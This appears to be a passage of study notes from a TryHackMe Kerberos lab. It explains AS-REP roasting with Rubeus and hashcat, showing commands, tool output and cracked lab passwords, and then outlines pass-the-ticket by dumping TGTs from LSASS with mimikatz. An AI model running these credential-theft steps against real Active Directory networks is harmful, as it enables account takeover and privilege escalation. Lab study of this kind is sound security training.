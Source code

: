 During pre-authentication, the users hash will be used to encrypt a timestamp that the domain controller will attempt to decrypt to validate that the right hash is being used and is not replaying a previous request.

After validating the timestamp the KDC will then issue a TGT for the user.

If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who they say that they are.

**Dumping KRBASREP5 Hashes**

```
cd \Download
Rubeus.exe asreproast

[*] Action: AS-REP roasting 
[*] Target Domain          : CONTROLLER.local
[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local'
 for AS-REP roastable users
[*] SamAccountName         : Admin2 
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local 
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::9516:f7:acfb:3
666%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful! 
[*] AS-REP hash:

save hash in hash3.txt 
insert 23$  after $krb5asrep$

hashcat -m 18200 hash3.txt Pass.txt

User3 : Password3

Administrator : P@$$W0rd

```

## Pass the ticket : mimikatz

Mimikatz is a very popular and powerful post-exploitation tool most commonly used for dumping user credentials inside of an active directory network however we'll be using mimikatz in order to dump a TGT from LSASS memory

- This will only be an overview of how the pass the ticket attacks work as THM does not currently support networks but I challenge you to configure this on your own network.
- You can run this attack on the given machine however you will be escalating from a domain admin to a domain admin because of the way the domain controller is set up.

Pass the ticket works by dumping the TGT from the LSASS memory of the machine

- The Local Security Authority Subsystem Service (LSASS) is a memory process that stores credentials on an active directory server and can store Kerberos ticket along with other credential types to act as the gatekeeper and accept or reject the credentials provided
- You can dump the Kerberos Tickets from the LSASS memory just like you can dump hashes. When you dump the tickets with mimikatz it will give us a `.kirbi `ticket which can be used to gain domain admin if a domain admin ticket is in the LSASS memory.
- This attack is great for privilege escalation and lateral movement if there are unsecured domain service account tickets laying around
